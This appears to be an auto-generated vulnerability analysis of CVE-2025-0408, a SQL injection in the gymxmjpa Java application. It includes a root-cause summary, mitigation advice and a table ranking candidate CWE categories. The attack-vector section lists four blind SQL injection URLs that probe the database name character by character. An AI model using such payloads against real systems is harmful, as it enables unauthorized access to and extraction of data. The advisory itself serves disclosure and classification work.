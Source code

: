 # Vulnerability Information: CVE-2025-0408

## Vulnerability Description
A vulnerability was found in liujianview gymxmjpa 1.0. It has been rated as critical. Affected by this issue is the function LoosDaoImpl of the file src/main/java/com/liujian/gymxmjpa/controller/LoosController.java. The manipulation of the argument loosName leads to **sql injection**. The attack may be launched remotely. The exploit has been disclosed to the public and may be used.

### Vulnerability Description Key Phrases
- **weakness:** **sql injection**
- **product:** liujianview gymxmjpa
- **version:** 1
- **component:** LoosDaoImpl in src/main/java/com/liujian/gymxmjpa/controller/LoosController.java

## CVE Reference Links Content Summary
## Analysis of CVE-2025-0408 Content

Based on the provided content, this relates to a SQL injection vulnerability.

**Root cause of vulnerability:**

The `loosName` parameter in the `query` method of `src/main/java/com/liujian/gymxmjpa/controller/LoosController.java` was not filtered.

**Weaknesses/vulnerabilities present:**

*   SQL Injection

**Impact of exploitation:**

The impact is not explicitly stated, but SQL injection can lead to data breaches, data manipulation, and potentially complete system compromise.

**Attack vectors:**

The vulnerability is exploited by crafting malicious SQL queries through the `loosName` parameter in the URL. Examples provided demonstrate using payloads like:

*   `http://192.168.0.104:8090/loos/query?pageNumber=1&pageSize=10&loosName=%E5%8C%85%25%27%20AND%20length(database())=3%20AND%20%27PiXZ%25%27=%27PiXZ`
*   `http://192.168.0.104:8090/loos/query?pageNumber=1&pageSize=10&loosName=%E5%8C%85%25%27%20AND%20substr(database(),1,1)%20=%20%27g%27%20AND%20%27PiXZ%25%27=%27PiXZ`
*   `http://192.168.0.104:8090/loos/query?pageNumber=1&pageSize=10&loosName=%E5%8C%85%25%27%20AND%20substr(database(),2,1)%20=%20%27y%27%20AND%20%27PiXZ%25%27=%27PiXZ`
*   `http://192.168.0.104:8090/loos/query?pageNumber=1&pageSize=10&loosName=%E5%8C%85%25%27%20AND%20substr(database(),3,1)%20=%20%27m%27%20AND%20%27PiXZ%25%27=%27PiXZ`

**Required attacker capabilities/position:**

An attacker needs to be able to send HTTP requests to the vulnerable endpoint and craft malicious payloads in the `loosName` parameter. No authentication is required based on the provided examples.

**Mitigation or fix:**

The content does not provide specific mitigation steps, but the root cause indicates that proper input validation and sanitization of the `loosName` parameter are required to prevent SQL injection.  Parameterized queries or prepared statements should be used.

**Note:** This content provides more detail than a typical CVE description, including specific examples of exploit payloads and the affected code location.

## Retriever Results

### Top Combined Results

| Rank | CWE ID | Name | Abstraction | Usage  | Retrievers | Individual Scores |
|------|--------|------|-------------|-------|------------|-------------------|
| 1 | 89 | Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection') | Base | Allowed | alternate_terms | 1.000 |
| 2 | 79 | Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting') | Base | Allowed | sparse | 0.397 |
| 3 | 1336 | Improper Neutralization of Special Elements Used in a Template Engine | Base | Allowed | sparse | 0.350 |
| 4 | 117 | Improper Output Neutralization for Logs | Base | Allowed | sparse | 0.342 |
| 5 | 434 | Unrestricted Upload of File with Dangerous Type | Base | Allowed | sparse | 0.324 |
| 6 | 502 | Deserialization of Untrusted Data | Base | Allowed | sparse | 0.323 |
| 7 | 99 | Improper Control of Resource Identifiers ('Resource Injection') | Class | Allowed-with-Review | sparse | 0.322 |
| 8 | 93 | Improper Neutralization of CRLF Sequences ('CRLF Injection') | Base | Allowed | sparse | 0.317 |
| 9 | 943 | Improper Neutralization of Special Elements in Data Query Logic | Class | Allowed-with-Review | dense | 0.525 |
| 10 | 184 | Incomplete List of Disallowed Inputs | Base | Allowed | graph | 0.002 |

